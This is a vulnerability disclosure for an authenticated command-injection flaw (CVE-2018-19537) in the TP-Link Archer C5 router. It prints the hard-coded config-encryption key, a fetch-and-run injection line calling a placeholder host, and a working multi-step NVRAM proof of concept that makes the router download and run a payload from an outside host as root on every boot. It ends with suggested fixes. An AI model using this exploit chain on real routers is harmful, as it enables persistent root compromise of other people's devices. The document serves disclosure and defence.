# TP-Link Archer C5 Authenticated RCE Through Malicious Configuration File Upload (CVE-2018-19537)


## Description


An authenticated remote code execution (RCE) vulnerability exists in all published firmware versions for the TP-Link Archer C5 router. By uploading a maliciously crafted configuration file, an attacker can inject OS commands that are run with root privileges.


The Archer C5 router allows administrative users to save current configuration parameters to a file, and restore parameters from a file. 
These parameters seem to be properly sanitized when a user tries to set them within the web GUI. 
However, they are not properly sanitized when set from a configuration file. 
In particular, we injected OS commands via the `wan_dyn_hostname 1 <name>` parameter within the uploaded configuration file. 
Other parameters may also be vulnerable.


## Methodology


A valid configuration file can be downloaded from the “Backup & Restore” menu in the router’s web GUI. The following HTTP request will download a backup of the router’s current configuration:


    GET /userRpm/config.bin HTTP/1.1
    Host: 192.168.0.1
    User-Agent: Mozilla/5.0 (X11; Linux ia64; rv:60.0) Foxfire/60.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.0.1/userRpm/BakNRestoreRpm.htm
    Cookie: Authorization=Basic%20YWRtaW46cGFzc3dvcmQ%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
 
The response contains the file “config.bin”, which is the configuration file with which we will tamper.


Configuration files are obfuscated by DES-encrypting them with a hard-coded key. This hard-coded key appears to be re-used across multiple TP-Link products. Credit to Matteo Croce for discovering this hard-coded key value. [http://teknoraver.net/software/hacks/tplink/](http://teknoraver.net/software/hacks/tplink/)


Two simple python scripts are attached to encrypt and decrypt configuration files - “binify.py” and “unbinify.py” respectively. A decrypted configuration file will have parameters like these: 


    wan_dns_auto 2 0
    wan_dyn_mtu 1 1500
    wan_dyn_mtu 2 0
    wan_dyn_ucst 1 0
    wan_dyn_ucst 2 0
    wan_dyn_hostname 1 Archer_C5
    wan_stc_ip 1 0.0.0.0
    wan_stc_ip 2 0.0.0.0
    wan_stc_msk 1 0.0.0.0


We can tamper with this decrypted configuration file by adding a malicious BusyBox command to the “wan_dyn_hostname” parameter, like so:


    wan_dyn_hostname 1 `wget -O - http://bad.url/hack | /bin/sh`


We then encrypt the new malicious configuration file and upload it via the web GUI. The router will automatically reboot. Early in the boot process, when the httpd program is run, our malicious BusyBox command is executed. The pseudocode of the relevant part of httpd is something like this:

```C
    char hostname[64];
    char to_run[256];
    memcpy(hostname, some_value_somewhere, 63);
    snprintf(to_run, 256, "udhcpc -h %s -i eth0", hostname)
    system(to_run);
    // Continue setting up network interfaces and connectivity
```

There are several limitations to this exploit, even beyond the limitation of having to use BusyBox. The Dropbear SSH server and telnetd do not seem to work over the wireless lan, and the hostname is limited by the firmware to 63 characters. Exceeding this limit overwrites other settings, and breaks internet access. Furthermore, httpd must return from the system() call before it actually has any network connectivity (as the system() call we are exploiting is the one that requests our WAN IP), and the root filesystem is read-only. The above example malicious command would not work; httpd would fail to wget the url since it does not yet have internet access, it would return from the system() call, and then it would continue operating normally.


So at this point we can run a 63 character BusyBox command, on a read-only filesystem, with no trivial way to make the program wait until it has finished setting up network connectivity before executing our command. We cannot simply tell it to sleep for a few minutes and then execute, because the system() call that we inject into is blocking execution.


One thing that we can do, however, is start another instance of httpd at this point in execution. This instance of httpd will also run this system call, which leaves us in a loop that will continuously spawn more instances of httpd, but allow the parent httpd processes to continue executing and ultimately restore network connectivity. To avoid running out of memory, we terminate this loop by checking to see if our exploit has been downloaded.


## Proof of Concept


Working within the above limitations, we came up with the following shell script, which grabs a file from the internet with wget and pipes it straight to /bin/sh.
    
```bash
    cd /tmp 
    if [ ! -f B ]; then 
        httpd & 
        sleep 15
        wget http://jackdoan.com/B
        /bin/sh B
    fi
```

Or, on one line, minified:
    
```bash
    cd /tmp; if [ ! -f B ]; then (httpd & sleep 15; wget http://jackdoan.com/B; /bin/sh B) fi
```

This script is an enormous 89 characters, so we need to upload it in chunks. But how? Uploading a command causes a reboot, and a reboot refreshes the state of the router. We realized that we could create our own NVRAM variable, and reference it in subsequent commands to build a command that we eventually run.


We used the vulnerability to inject the following commands and build up an exploit:

```bash
    ; nvram set "a=cd /tmp; if [ ! -f B ]; then (htt";nvram commit
    ; nvram set "a=`nvram get a`pd & sleep 15; wget";nvram commit
    ; nvram set "a=`nvram get a` http://jackdoan.co";nvram commit
    ; nvram set "a=`nvram get a`m/B; /bin/sh B) fi"; nvram commit
```

And finally, trigger the exploit by setting the hostname to:

```bash   
    ; udhcpc; nvram get a | /bin/sh ;
```

This script stored in the router’s NVRAM will be run on each boot, and the router will appear to continue working normally. The end result is that the router will reach out to the internet, download a file, and run it as root every time it boots.


## Criticality Assessment


As shown, this vulnerability can be exploited to cause the router to reach out over the internet, grab a payload, and run it with root privileges. Therefore there is high impact on confidentiality, integrity, and availability of the device.


The process of injecting a command via the `wan_dyn_hostname` parameter of the configuration file is simple. Escaping the limitations of this command to run any arbitrary payload without disrupting normal router functionality is moderately complex.


This attack is moderately visible, as it requires at least one reboot of the device. Our POC requires 5 successive reboots, but persists until the device is factory reset


This vulnerability can be exploited by anyone with access to the web admin account. Thus, with the router’s default configuration this can be exploited via LAN / WLAN connectivity with the default admin credentials of “admin:admin”. This vulnerability can be exploited remotely across the internet, if remote management is enabled. Remote management is disabled by default.


## Suggested Fixes/Solutions
* Run the values restored from a configuration backup through the same functions that check the validity of user input from the web UI
* Force the user to set an admin password during router setup


## Comments


This vulnerability is relatively simple, leading us to believe that it has likely been found and exploited before. The defense against this attack is also incredibly simple: do not use the default administrative password. A strong password to the web administrative account will prevent this attack. Because it is so easy to exploit, and also so easy to mitigate, we believe that full disclosure is in the public’s best interest.


For our PoC, we injected via the “wan_dyn_hostname” parameter. However, the config file contains 1190 parameters in total, many of which may be injectable.


## Acknowledgments
* Matteo Croce for discovering the hard-coded key value of 478DA50BF9E3D2CF (http://teknoraver.net/software/hacks/tplink/)
* TP-Link, for providing a toolchain with their GPL-compliance package that allowed us to build GDB for their platform

